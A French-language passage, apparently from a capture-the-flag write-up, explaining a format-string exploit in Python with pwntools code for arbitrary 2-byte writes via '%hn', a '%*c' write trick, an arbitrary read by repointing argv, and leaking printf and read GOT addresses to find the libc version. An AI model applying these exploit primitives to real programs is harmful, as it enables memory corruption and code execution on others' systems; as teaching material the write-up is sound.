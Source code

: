 Pour ce faire, cette fonction dans l'exploit nous permet d'écriture 2 octets par 2 octets un entier 64-bits à une adresse arbitraire :

```py
def write(self, addr: int, value: int):
  for i in range(4):
    v = (value >> (0x10 * i)) & 0xffff
    p = flat({
        0: f"%{v}c%11$hn".encode() if v else b"%11$hn",
        0x10: p64(addr + (i * 2))
    }, filler=b'\0')
    self.io.send(p)
    self.io.recvuntil(b"Programme ")
    self.io.clean()
```

Une autre fonction utile pour écrire des valeurs qui ne rentre pas à cause de la limite de l'entrée, et qui utilise le trick avec l'`*`. La valeur est stockée à une adresse (ici l'adresse qu'on pourra accéder à l'index 21), puis écrite à une adresse arbitraire :

```py
def write_one(self, addr: int, value: int):
  self.write(self.argv - 0xd8, value)
  p = flat({
      0: f"%*21$c%11$n".encode(),
      0x10: p64(addr)
  }, filler=b'\0')
  self.io.send(p)
```

Maintenant, pour lire il nous faut juste écrire l'adresse à lire sur la stack, modifier `argv` pour pointer sur cette adresse, lire le contenu puis restaurer le pointeur. Voici le code responsable pour la lecture arbitraire :

```py
def read(self, addr: int):
  self.write(self.area_ptr, addr) # self.area_ptr contient l'adresse à lire
  data = self.set_area()          # Modifie argv pour pointer sur self.area_ptr
  self.set_argv()                 # Restaure argv à son état initial
  return data
```

## Exécution de code

Nous avons maintenant nos primitives de lecture et d'écriture, il nous manque plus qu'à retrouver la base du binaire ainsi que la version de la libc en [ligne](https://libc.blukat.me/) à l'aide des fonctions de la GOT :

```py
printf = u64(io.read(elf.symbols.got["printf"]).ljust(8, b'\0'))
read = u64(io.read(elf.symbols.got["read"]).ljust(8, b'\0'))

print("printf @ %#x" % printf)
print("read   @ %#x" % read)
```
